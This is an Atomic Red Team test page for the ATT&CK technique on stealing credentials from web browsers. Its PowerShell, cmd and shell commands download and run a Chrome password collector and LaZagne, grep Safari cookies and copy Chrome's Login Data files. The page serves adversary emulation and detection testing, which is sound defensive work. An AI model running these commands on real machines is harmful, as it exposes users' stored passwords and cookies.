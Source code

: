 # T1555.003 - Credentials from Web Browsers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/003)
<blockquote>Adversaries may acquire credentials from web browsers by reading files specific to the target browser.(Citation: Talos Olympic Destroyer 2018) Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future. Web browsers typically store the credentials in an encrypted format within a credential store; however, methods exist to extract plaintext credentials from web browsers.

For example, on Windows systems, encrypted credentials may be obtained from Google Chrome by reading a database file, <code>AppData\Local\Google\Chrome\User Data\Default\Login Data</code> and executing a SQL query: <code>SELECT action_url, username_value, password_value FROM logins;</code>. The plaintext password can then be obtained by passing the encrypted credentials to the Windows API function <code>CryptUnprotectData</code>, which uses the victim’s cached logon credentials as the decryption key. (Citation: Microsoft CryptUnprotectData April 2018)
 
Adversaries have executed similar procedures for common web browsers such as FireFox, Safari, Edge, etc.(Citation: Proofpoint Vega Credential Stealer May 2018)(Citation: FireEye HawkEye Malware July 2017) Windows stores Internet Explorer and Microsoft Edge credentials in Credential Lockers managed by the [Windows Credential Manager](https://attack.mitre.org/techniques/T1555/004).

Adversaries may also acquire credentials by searching web browser process memory for patterns that commonly match credentials.(Citation: GitHub Mimikittenz July 2016)

After acquiring credentials from web browsers, adversaries may attempt to recycle the credentials across different systems and/or accounts in order to expand access. This can result in significantly furthering an adversary's objective in cases where credentials gained from web browsers overlap with privileged accounts (e.g. domain administrator).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Run Chrome-password Collector](#atomic-test-1---run-chrome-password-collector)

- [Atomic Test #2 - Search macOS Safari Cookies](#atomic-test-2---search-macos-safari-cookies)

- [Atomic Test #3 - LaZagne - Credentials from Browser](#atomic-test-3---lazagne---credentials-from-browser)

- [Atomic Test #4 - Simulating access to Chrome Login Data](#atomic-test-4---simulating-access-to-chrome-login-data)


<br/>

## Atomic Test #1 - Run Chrome-password Collector
A modified sysinternals suite will be downloaded and staged. The Chrome-password collector, renamed accesschk.exe, will then be executed from #{file_path}.

Successful execution will produce stdout message stating "Copying db ... passwordsDB DB Opened. statement prepare DB connection closed properly". Upon completion, final output will be a file modification of $env:TEMP\sysinternals\passwordsdb.

Adapted from [MITRE ATTACK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/data/abilities/credential-access/e7cab9bb-3e3a-4d93-99cc-3593c1dc8c6d.yml)

**Supported Platforms:** Windows


**auto_generated_guid:** 8c05b133-d438-47ca-a630-19cc464c4622





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for modified Sysinternals | String | $env:TEMP|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path "#{file_path}\Sysinternals";
./accesschk.exe -accepteula .;
```

#### Cleanup Commands:
```powershell
Remove-Item #{file_path}\Sysinternals -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}\SysInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive #{file_path}\Modified-SysInternalsSuite.zip #{file_path}\sysinternals -Force
Remove-Item #{file_path}\Modified-SysInternalsSuite.zip -Force
```




<br/>
<br/>

## Atomic Test #2 - Search macOS Safari Cookies
This test uses `grep` to search a macOS Safari binaryCookies file for specified values. This was used by CookieMiner malware.

Upon successful execution, MacOS shell will cd to `~/Libraries/Cookies` and grep for `Cookies.binarycookies`.

**Supported Platforms:** macOS


**auto_generated_guid:** c1402f7b-67ca-43a8-b5f3-3143abedc01b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_string | String to search Safari cookies to find. | String | coinbase|


#### Attack Commands: Run with `sh`! 


```sh
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```






<br/>
<br/>

## Atomic Test #3 - LaZagne - Credentials from Browser
The following Atomic test utilizes [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from browsers on the Windows operating system.
LaZagne is an open source application used to retrieve passwords stored on a local computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 9a2915b3-3954-4cce-8c76-00fbf4dbd014





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| lazagne_path | Path to LaZagne | Path | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;LaZagne.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{lazagne_path} browsers
```




#### Dependencies:  Run with `powershell`!
##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{lazagne_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{lazagne_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe" -OutFile "#{lazagne_path}"
```




<br/>
<br/>

## Atomic Test #4 - Simulating access to Chrome Login Data
Simulates an adversary accessing encrypted credentials from Google Chrome Login database.

**Supported Platforms:** Windows


**auto_generated_guid:** 3d111226-d09a-4911-8715-fe11664f960d






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -Destination $env:temp
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" -Destination $env:temp
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "$env:temp\Login Data" -Force -ErrorAction Ignore
Remove-Item -Path "$env:temp\Login Data For Account" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$installer = "$env:temp\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile $env:temp\ChromeStandaloneSetup64.msi https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```




<br/>
